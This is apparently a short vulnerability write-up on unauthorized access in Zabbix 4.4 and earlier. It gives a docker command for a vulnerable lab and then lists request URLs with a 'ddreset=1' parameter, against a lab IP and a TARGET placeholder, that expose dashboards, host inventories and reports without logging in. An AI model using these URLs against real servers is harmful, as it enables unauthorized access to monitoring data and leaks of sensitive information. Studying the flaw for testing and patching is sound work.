



# Zabbix Unauthorized Access Vulnerability

## Vulnerability Description

There is an unauthorized access vulnerability in Zabbix, through which the attacker can access the data on the Zabbix server without authorization, leading to the leak of sensitive information.

## Affected Versions

Zabbix <= 4.4

## Environment Setup

```
docker run -p 10051:10051  -p 80:80 zabbix/zabbix-appliance:ubuntu-4.0.12
```

## Exploitation

Access: http://192.168.32.183/zabbix.php?action=problem.view&ddreset=1



Access: http://192.168.32.183/overview.php?ddreset=1



Access: http://192.168.32.183/latest.php?ddreset=1



The following links can also be accessed:

- https://TARGET/zabbix/zabbix.php?action=dashboard.view
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&ddreset=1
- https://TARGET/zabbix/zabbix.php?action=problem.view&ddreset=1
- https://TARGET/zabbix/overview.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=web.view&ddreset=1
- https://TARGET/zabbix/latest.php?ddreset=1
- https://TARGET/zabbix/charts.php?ddreset=1
- https://TARGET/zabbix/screens.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=map.view&ddreset=1
- https://TARGET/zabbix/srv_status.php?ddreset=1
- https://TARGET/zabbix/hostinventoriesoverview.php?ddreset=1
- https://TARGET/zabbix/hostinventories.php?ddreset=1
- https://TARGET/zabbix/report2.php?ddreset=1
- https://TARGET/zabbix/toptriggers.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=dashboard.list
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&dashboardid=1

